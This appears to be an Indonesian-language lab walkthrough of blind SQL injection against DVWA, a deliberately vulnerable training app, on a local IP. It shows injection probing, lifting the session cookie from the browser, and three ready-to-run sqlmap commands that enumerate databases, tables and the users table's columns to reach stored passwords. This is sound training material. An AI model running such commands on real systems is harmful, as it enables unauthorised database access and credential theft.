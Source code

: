 <b> HOW TO SOLVE SQL INJECTION BLIND </b>


Sekarang kita coba menggunakan  
```
'1
```
 apakah vulnerable atau tidak
 
![Screenshot (464)](https://user-images.githubusercontent.com/118157585/216914220-44732cad-9ef5-48d2-a694-daf675c2651d.png)

dammmmn! ternyata vulnerable.

![Screenshot (465)](https://user-images.githubusercontent.com/118157585/216914282-690c2d67-87af-4de8-a98a-a38e345627c6.png)

nah sekarang saatnya kita copy link tersebut, untuk kita tes di tools <b><i> SQL Injection </i></b>

![Screenshot (467)](https://user-images.githubusercontent.com/118157585/216914420-1432de38-8c99-4103-b26b-ed528f4114c2.png)

sebelum ke <b><i> SQL Injection </i></b> kita cari tahu dulu PHPSESSID nya, yaitu dengan klik kanan pada tampilan dvwa SQLI Blind, llau klik inspect element, nah setelah itu klik storage.

![Screenshot (468)](https://user-images.githubusercontent.com/118157585/216914472-d1365172-f36a-4f67-b3fd-b78ce72bccf4.png)

nahhhh sekarang kita coba crack databases nya, ada apa ajasih disana. dengan mengetikkan perintah :

```
sqlmap -u 'http://192.168.18.115/DVWA/vulnarebilities/sqli_blind/?id=1&Submit=Submit#' --cookie='security=low; PHPSESSID=gg58gd3lp0rqeq3rftt96l1b3kq' --dbs
```

ternyata disana ada <b><i> * dvwa dan * information_scheme </i></b>.

![Screenshot (473)](https://user-images.githubusercontent.com/118157585/216918953-f94e854d-a85d-4602-b0b2-c8c0d89ba805.png)

sekarang kita lanjut untuk mencari tables nya, kita crack databases <b><i> dvwa </i></b> , dengan mengetikkan perintah :

```
sqlmap -u 'http://192.168.18.115/DVWA/vulnarebilities/sqli_blind/?id=1&Submit=Submit#' --cookie='security=low; PHPSESSID=gg58gd3lp0rqeq3rftt96l1b3kq' -D dvwa --tables
```

nah disana terdapat 2 tables yaitu <b><i> guestbook dan users </i></b>

![Screenshot (469)](https://user-images.githubusercontent.com/118157585/216914534-a11d21ed-488b-4cc2-964c-80d04f2316c6.png)

lalu sekarang kita lanjut untuk mencari columns nya dari tables kedua tersebut, tapi saya feeling columns yang penting berada di tables <b><i> users </i></b>.
jadi kita crack di tables <b><i> users </i></b> dengan menggunakan perintah :

```
sqlmap -u 'http://192.168.18.115/DVWA/vulnarebilities/sqli_blind/?id=1&Submit=Submit#' --cookie='security=low; PHPSESSID=gg58gd3lp0rqeq3rftt96l1b3kq' -T users --columns
```

nah disini terdapat 8 columns yang mana salah dua column tersebut adalah yang kita cari, yaitu <b><i> password dan user_id </i></b>

![Screenshot (470)](https://user-images.githubusercontent.com/118157585/216914627-66c0f0cc-8238-4fb1-9e14-3a5366b64288.png)
![Screenshot (471)](https://user-images.githubusercontent.com/118157585/216914738-07273ce5-2666-4607-89a5-e8390b9aa9c0.png)
![Screenshot (472)](https://user-images.githubusercontent.com/118157585/216914855-fea2c425-2fe1-4fad-8929-a3d3e1584747.png)
